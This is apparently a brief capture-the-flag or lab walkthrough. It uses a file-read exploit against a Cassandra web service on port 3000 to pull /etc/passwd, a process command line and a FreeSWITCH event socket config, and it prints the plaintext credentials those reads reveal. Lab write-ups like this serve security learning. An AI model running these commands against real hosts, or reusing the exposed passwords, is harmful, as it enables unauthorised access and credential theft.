




We have cassandra in port 3000:

We find an exploit for cassandra https://www.exploit-cassandra.db.com/exploits/49362 :
Now we can run the exploit:
```
python3 cassandra.py -p 3000 192.168.236.240 /etc/passwd
```


Now to get credentials:
```
python3 cassandra.py -p 3000 192.168.236.240 /proc/self/cmdline
```


`cassie : SecondBiteTheApple330`

Now we can get the password for freeswitch event from `/etc/freeswitch/autoload_configs/event_socket.conf.xml`
```
python3 cassandra.py -p 3000 192.168.236.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```

We have a password `StrongClueConEight021`
